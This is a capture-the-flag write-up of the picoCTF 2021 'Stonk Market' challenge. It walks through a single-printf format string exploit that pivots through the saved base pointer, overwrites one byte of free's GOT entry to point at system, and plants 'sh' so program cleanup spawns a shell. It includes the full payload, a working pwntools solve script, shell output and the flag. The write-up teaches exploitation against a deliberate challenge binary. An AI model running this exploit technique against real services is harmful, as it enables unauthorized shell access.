

<h1 align="center">📈 Stonk Market</h1>
<p align="center">
  <b>picoCTF 2021 Binary Exploitation Write-Up</b>
</p>
<p align="center">
  
  
  
  
</p>
<p align="center">
  One printf, a Stack-Pointer Pivot, a One-Byte GOT Overwrite, and free() Becomes system()
</p>

---

# 📋 Environment

| Item       | Value                                                              |
| ---------- | ----------------------------------------------------------------- |
| Event      | picoCTF 2021 (run on CyLab Security Academy)                       |
| Category   | Binary Exploitation                                              |
| Difficulty | Hard                                                             |
| Author     | madStacks                                                        |
| Handout    | `vuln` (64-bit ELF, No PIE, Partial RELRO), `vuln.c`, `Makefile`  |
| Task       | Turn a single format string into a shell and read the key file   |
| Tools Used | `pwntools`, `objdump`, `gdb`                                     |

---

# 🗺️ Overview

> Stonk Market hands us the source, so the bug is not hidden: `buy_stonks` reads an "API token" into a heap buffer and passes it straight to `printf` as the format string. That is a textbook format string vulnerability, but the challenge is deliberately awkward. The buffer is on the heap rather than the stack, so we cannot plant our own pointers for `%n` to use; we are limited to pointers that already sit on the stack. And we get exactly one `printf`, so there is no leak-then-write, which rules out the usual two-step attacks. Two things save us. The binary is compiled with No PIE, so every address is fixed and only three bytes wide, and it uses Partial RELRO, so the GOT is writable. The plan is to overwrite `free`'s GOT entry so it points at `system`, write the string `sh` over a pointer that gets freed on exit, and let the program's own cleanup call `system("sh")` for us. The trick that makes it fit in one `printf` is using the saved base pointer, already on the stack, as a stepping stone: we write the address of `free`'s GOT entry onto the stack, which turns a later format argument into a pointer we can then write through.

Steps:
* Read `vuln.c`: `printf(user_buf)` with a fully controlled, heap-resident format string
* Note No PIE and Partial RELRO, so the GOT is a fixed, writable, three-byte target
* Use the saved rbp (printf argument 12) to place `free@got` onto the stack as argument 20
* Overwrite one byte of `free@got` so it points at `system@plt`
* Write `sh` over the portfolio pointer, so `free_portfolio` runs `system("sh")`, then read the key

---

# 📑 Table of Contents

1. [The Service and the Bug](#the-service-and-the-bug)
2. [Why the Heap Buffer Hurts](#why-the-heap-buffer-hurts)
3. [The Target: free Becomes system](#the-target-free-becomes-system)
4. [Building a Pointer on the Stack](#building-a-pointer-on-the-stack)
5. [The One printf](#the-one-printf)
6. [The Exploit](#the-exploit)
7. [Flag](#-flag)
8. [Solution Summary](#solution-summary)
9. [Lessons and Takeaways](#lessons-and-takeaways)

---

# The Service and the Bug

The protections are light, and the one that is missing is the one that matters:

```text
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

The vulnerable path is in `buy_stonks`:

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);               // format string we fully control
```

`printf(user_buf)` with attacker-controlled contents is a format string vulnerability. The story about not reading the API key into memory is a red herring; the key file still sits in the challenge directory, so a shell is all we need. The rest of the program is flavor, except for one useful detail at the very end of `main`:

```c
free_portfolio(p);              // frees every stonk, then frees p
```

`free_portfolio` walks the linked list calling `free` on each node and finally on the portfolio itself. If we can make `free` behave like `system`, that cleanup becomes a shell.

> **In plain terms:** the program prints whatever we type as if it were a format string, which is a classic bug. And right before it exits, it frees a bunch of pointers. If we can turn "free" into "run this as a command," the program ends by handing us a shell.

---

# Why the Heap Buffer Hurts

The twist that makes this Hard rather than introductory is where our input lives. Normally the format string sits on the stack, so we can write target addresses into it and let `%n` write through them. Here the buffer comes from `malloc`, so it is on the heap. On x86-64, the first arguments to `printf` are in registers and the rest are read off the stack, and our heap buffer is nowhere in that argument window. So `%n` can only write to addresses that are already present on the stack.

On top of that, we get a single `printf` call. There is no room for the common pattern of leaking an address in one call and writing in a second. Everything has to happen in one shot, using only the pointers the stack already holds.

The stack does hold pointers, though. Function locals and saved registers for `main` and `buy_stonks` are all there, including the saved base pointer and the portfolio pointer. Those are the materials we have to work with.

> **In plain terms:** because our text is on the heap, we cannot smuggle our own target addresses into the format string. We are stuck writing only to addresses that already happen to be lying on the stack, and we only get one go.

---

# The Target: free Becomes system

No PIE means fixed addresses, and the ones we need are only three bytes wide:

```text
free@got    = 0x602018      (writable, Partial RELRO)
system@plt  = 0x4006f0
free@plt+6  = 0x4006c6       (what free@got holds before it is resolved)
```

Because `free` has not been called yet when we reach our `printf`, its GOT entry still points at the lazy resolver stub, `0x4006c6`. We want it to point at `system@plt`, `0x4006f0`. Those two values differ only in the lowest byte, `0xc6` versus `0xf0`. So we do not need to write a whole address into the GOT; a single-byte write of `0xf0` is enough to turn `free` into `system`. That is the payoff of No PIE here, and it is why a single `printf` can do the job.

> **In plain terms:** the function table entry for `free` currently points one place, and we want it to point at `system`, which happens to be just sixteen bytes away. So we only have to change one byte of it, not forge a full address.

---

# Building a Pointer on the Stack

We know the value to write (`0xf0`) and where to write it (`free@got`, `0x602018`), but there is no pointer to `free@got` anywhere on the stack to aim `%n` at. We have to create one, and the saved base pointer is the lever.

When `buy_stonks` runs its `printf`, the stack already holds its saved rbp, which points up into `main`'s frame. Counting format arguments on this binary (confirmed in a debugger): the saved rbp is argument 12, and the stack slot it points at is argument 20. So the move is:

1. Use a non-positional `%n` on argument 12 to write `0x602018` to the address the saved rbp points at. That address is the slot of argument 20.
2. Now argument 20 holds `0x602018`, which is a pointer to `free@got`.
3. Write through argument 20 with `%20$hhn` to drop our byte into the GOT.

One detail decides whether this works at all. When `printf` first meets a positional specifier like `%20$`, it scans the format string and caches the arguments it will use. If any positional specifier appeared before our write completed, argument 20 would be cached with its old value and our write would go nowhere. So every step that builds the pointer must use plain, non-positional specifiers, and the first `$` must not appear until after the pointer is in place. This is also why the exploit matches the server's glibc 2.27 behavior, where specifiers are processed in order until that first `$`.

> **In plain terms:** there is no pointer to the target on the stack, so we make one. We use a pointer that is already there, the saved base pointer, to drop the target address into another stack slot, and then we write through that slot. The catch is that we must finish building this pointer before we use any numbered argument, or the trick fizzles.

---

# The One printf

Everything is packed into one format string. The `%n` family writes the running count of printed characters, so the field widths are chosen to make that count equal each value we need at the moment it is written:

```text
%c%c%c%c%c%c%c%c%c%c   prints 10 chars            (consumes args 1..10)
%6299662c              count now 0x602018
%n                     write 0x602018 to *(arg 12)  -> arg 20 is now &free@got
%216c                  count now 0x6020f0
%20$hhn                write low byte 0xf0 to free@got -> it points at system@plt
%10504067c             count now 0x1006873
%18$n                  write 0x1006873 to *p -> p now begins "sh\0"
```

The final count `0x01006873`, stored little-endian into the portfolio, lays down the bytes `73 68 00 01`, which is `s`, `h`, a null, and a stray byte. So the portfolio now starts with the C string `sh`. When `main` calls `free_portfolio`, it frees the stonks first (each `free(stonk)` is now `system` of some junk bytes, which just prints harmless "not found" errors) and finally `free(p)`, which is `system("sh")`, giving a shell. From there the key file in the challenge directory is a single `cat` away.

> **In plain terms:** one carefully padded format string flips `free` into `system` and stamps the word `sh` onto the thing that gets freed last. The program then frees it, which now means running `sh`, and we are in.

---

# The Exploit

```python
#!/usr/bin/env python3
import sys, re
from pwn import *
context.log_level = 'info'

# 10 + 6299662 = 0x602018 (free@got) ; +216 = 0x6020f0 ; +10504067 = 0x1006873 ("sh\0")
payload = b"%c"*10 + b"%6299662c" + b"%n" + b"%216c" + b"%20$hhn" + b"%10504067c" + b"%18$n"

r = remote(sys.argv[1], int(sys.argv[2]))
r.sendlineafter(b"2) View my portfolio", b"1")
r.sendlineafter(b"API token?", payload)

# shell is live once the padding flushes; read the key file, then stay interactive
r.sendline(b"cat flag.txt 2>/dev/null; cat api 2>/dev/null; ls -la")
data = r.recvrepeat(6)
m = re.search(rb'(?:picoCTF|academy)\{[^}]*\}', data)
if m:
    log.success("FLAG: %s" % m.group().decode()); print(m.group().decode())
else:
    r.interactive()
```

Run it against the server, then read the key file the shell drops us next to:

```text
$ python3 solve.py chatelaine.cylabacademy.net 47952
[*] Switching to interactive mode
$ ls
Dockerfile  Makefile  Makefile.share  api  packages.txt  start.sh  vuln  vuln.c
$ cat api
academy{explo1t_m1t1gashuns_c3d30028}
```

The exploit prints about sixteen megabytes of padding spaces first, since that is how `%n` counts up to the values it needs, so it takes a couple of seconds before the shell responds.

> **In plain terms:** send the one format string, wait for the padding, and the program hands back a shell. The API key the author swore was safe is sitting in a file called `api`.

---

# 🚩 Flag

```text
academy{explo1t_m1t1gashuns_c3d30028}
```

---

# Solution Summary



---

# Lessons and Takeaways

* **Where the format buffer lives changes everything.** Because the string is on the heap, we cannot plant target addresses for `%n`, so the attack is built entirely from pointers the stack already holds. Recognizing that constraint early is what points you at the saved rbp trick.
* **No PIE shrinks the write you need.** Fixed addresses are three bytes, and `free@got` differs from `system@plt` by a single byte, so a one-byte overwrite flips `free` into `system`. With PIE the addresses would be six bytes and this one-shot would not fit.
* **A saved base pointer is a free stack write primitive.** The saved rbp already points into a higher frame, so writing an address through it lands that address in a predictable stack slot, which then becomes a pointer you can write through. That is how a single `printf` reaches an address that was never on the stack to begin with.
* **Positional specifiers cache their arguments.** The first `$` makes the formatter snapshot the arguments, so any pointer you intend to build must be finished with plain specifiers before the first numbered one. Getting that order wrong silently writes to a stale value.
* **Program cleanup can be the trigger.** We never call `system` ourselves; we corrupt `free` and let the program's own `free_portfolio` do it on exit. Turning the target's normal control flow into the firing mechanism is often cleaner than hijacking a return address.

---

Written by **TheDingo8MyBaby**
picoCTF 2021 • Stonk Market • flag: academy{explo1t_m1t1gashuns_c3d30028}
